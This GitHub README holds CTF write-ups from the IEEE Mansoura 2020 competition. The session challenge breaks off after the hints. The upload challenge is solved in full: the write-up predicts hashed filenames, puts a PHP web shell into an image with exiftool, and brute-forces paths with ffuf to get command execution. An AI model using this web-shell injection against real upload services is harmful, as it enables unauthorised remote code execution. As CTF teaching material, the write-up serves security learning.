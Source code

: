 # IEEE-_CTF
This repo contain writeups for IEEE Mansora Branch CTF 2020.
Produced to by Champion Team. 
We got the **4th place** with 494 points only 3 points to the 3rd place, enjoy.

## Web
### S3ssion master
#### Discription
We've implemented a secure session management system, prove we're wrong! http://207.154.231.228:3000/ Flag format IEEE{FLAG}

Challenge points : 100 
(![landing](https://www5.0zz0.com/2020/09/29/23/789394231.jpg))
#### Dive Into the Challenge
After checking the request and response on burp,   I found that there is Cookie named session has this value [40l1140oorxeezn246edkbsi6menvfyiun5abk5pi1epg89q12187jk4s8wqbpg3]

I tried to find out the encryption used to generate this cookie ,but I didn’t find anything. 
Also tried directory brute force using dirsearch tool
,but also didn’t find anything. 
(![cookie](https://www6.0zz0.com/2020/09/29/23/653459954.jpg))

After some time the organizer give us 2 hints to solve the challenge :
- It’s all about sessions.
- Hidden directories are always useful.

So now I know that this challenge have some directory hidden who will help me to solve it.


### Se3cure Uploader
#### Discription
We've released our new open source file uploading service, do
your things and find out if there are any security gaps. Source
code is attached, demo can be found
at http://165.227.140.251/s3cure_uploader To be more secure,
and for testing purposes we're deleting the uploaded files every 3
mins. flag file can be found at flag.php.
Challenge Points : 200
(![challenge](https://www4.0zz0.com/2020/09/29/22/474349029.jpg))

#### Dive into Challenge
When I finished reading the description , I found that is file upload challenge ,so all what I have is to upload picture or file and execute commands to read flag.php file. 
when i tired to upload jpg picutre it returns the path to it ,but the name of the file is **hashed** with .jpg extention.
so I tried to upload .php file ,it returns **invalid type**.
(![upload](https://www5.0zz0.com/2020/09/29/22/704605433.png))
(![invalid type](https://www8.0zz0.com/2020/09/29/23/676416689.png))

#### Source code analysis 
So first, I downloaded the source code , began to analysis it carefully.
As shown in the below picture of upload.php
(![source](https://www8.0zz0.com/2020/09/29/22/273265710.jpg))


From analyzing , I found the following:
-	After uploading the file it will be saved in the uploads directory
-	The server saves with different name from its original name.
-	There is validation on the size and type of file that must be an image.
So I started to run the source code locally on my laptop and try to solve it.

From source code I found that naming the file have the following procedure:
1.	Generate random number from 1 to 1000
2.	Concatenate the random number with the current time in format y-m-d min-sec
3.	Concatenate to them the file original name without extension.
4.	Apply md5 hashing method to the previous combination.
5.	concatenate to the output hash the extension of the file.

In the upload image challenges there are 2 things you need to check:
- upload image with php code successfuly. 
- path to access it.

#### Solution Process
I made some modification to print the time and random number as shown from that i found that the time of response + 3h will return the time required ,but this is was in my local server only in the challenge server there is no constant hours to add.
(![local server](https://www8.0zz0.com/2020/09/29/22/978549807.png))

so now we have one variable in the name generated hash function is the random value.
here i tried to upload image with php code injected to my local server and check if i can get it. 
I found that the server saved it with new hash name and can be accessed ,but the server don't show the name .

So, All what i have to do is :
1. Inject picture with php code to get rce. 
2. rename it to image.jpg.php.
3. take the date in response.
4. generate 1000 possible hash names.
5. use a tool like intruder in burp and give it the names to return the correct one to you.
6. finally execute your commands.

To inject php I used exiftoo with this command:
`exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' test5.jpg`
Then rename it to : test5.jpg.php.
I uploaeded it and get the response date and give to a script I wrote for this challenge you can get it in the repo. 
Now I have file with 1000 possible hash names, I tried to give it to the intruder and start it, but it didn't work because intruder take long time and the server was deleting the files every **3 Minutes** .

In this point I talked to my teammates for a help. my teammate **Mohammed Saleh** told me to use a great tool called FUFF.
You can get it from ([here](https://github.com/ffuf/ffuf)).

WoW it worked !!!
(![FUFF](https://www11.0zz0.com/2020/09/29/23/841804976.png))

So now I have the path , let's get the flag.
I tried to put the parameter cmd=ls to list the contents of the folder.
(![before flag](https://www13.0zz0.com/2020/09/29/23/931832642.png))

Let's take step before this directory.
(![before flag2](https://www5.0zz0.com/2020/09/29/23/161437722.png))

After showing the flag it return blank page so, I showed the source page and We got the flag successfuly.
(![flag](https://www5.0zz0.com/2020/09/29/23/525548868.png))



